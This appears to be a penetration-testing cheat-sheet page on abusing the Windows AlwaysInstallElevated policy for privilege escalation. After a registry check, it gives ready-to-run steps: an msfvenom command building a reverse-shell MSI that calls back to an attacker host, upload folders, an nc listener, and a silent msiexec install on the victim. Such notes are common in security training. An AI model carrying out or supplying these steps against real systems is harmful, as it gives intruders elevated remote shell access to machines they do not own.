 ## Always Install Elevated

### Steps

#### Recon / Enumeration

Looking for the registry key that tells us if the machine has installed alwaysStayElevated:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

if enabled, it will state as following in the response powershell:

```
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

#### Exploitation

**Payload**

Create an Reverse Shell in MSI extension with following payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> lport=<port> -a x64 --platform windows -f msi -o exploit.msi
```

**Upload**

Upload an msi binary made with msfvenom to a folder you have permission to like:

```
C:\Temp
C:\Program Data\
C:\Users\<username>\Downloads,Desktop,etc
```

**Attacker Machine**

Listen to the port stated in the payload:

```
nc -lvnp <port>
```

**Victim Machine**

```
cd <uploaded_directory>
msiexec /queit /qn /i exploit.msi
```